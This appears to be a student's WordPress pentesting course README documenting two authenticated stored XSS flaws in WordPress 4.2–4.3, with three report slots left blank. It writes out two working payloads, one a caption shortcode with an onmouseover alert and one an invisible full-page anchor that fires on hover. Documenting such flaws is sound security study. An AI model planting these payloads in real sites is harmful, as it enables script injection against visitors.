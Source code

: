 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. Authenticated Stored Cross-Site Scripting (XSS) 
  - [X] Summary: A user with posting capabilities can input a stored XSS vulnerability on a post or page. 
    - Vulnerability types: XSS
    - Tested in version: 4.2.2
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: <a href="[caption code=">]</a><a title=" onmouseover=alert('test')  ">link</a> into a wordpress post in HTML mode. Hover mouse on "link" when viewing post.
  - [ ] Affected source code: N/A
    - [Link 1](https://ibb.co/hwUUDv)

1. Authenticated Shortcode Tags Cross-Site Scripting (XSS) 
  - [ ] Summary: XSS can be inserted into a content post by taking advantage of when validation is done using the KSES variant used by WordPress and the shortcode parsing. Since KSES validation is done first, which checks for HTML correctness, the example code below will not fail the validation done in KSES. As a result, when shortcode parsing ins finished, it leaves an unclosed 'href' attribute allowing for the attacker to inject an arbitrary <a> attribute for example to input malicious JavaScript. 
    - Vulnerability types: XSS (Through WordPress shortcode)
    - Tested in version: 4.3
    - Fixed in version: 4.4
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: Post "XSS LOL!!![caption width='1' caption='<a href="' ">]</a><a href="http://onMouseOver='alert(/xss/)' style='display:block;position:absolute;top:0px;left:0px;margin-left:-1000px;margin-top:-1000px;width:99999px;height:99999px;'"></a>" into the content of a new post, then view the post.
  - [ ] Affected source code: N/A
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2017] [Julian Domingo]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
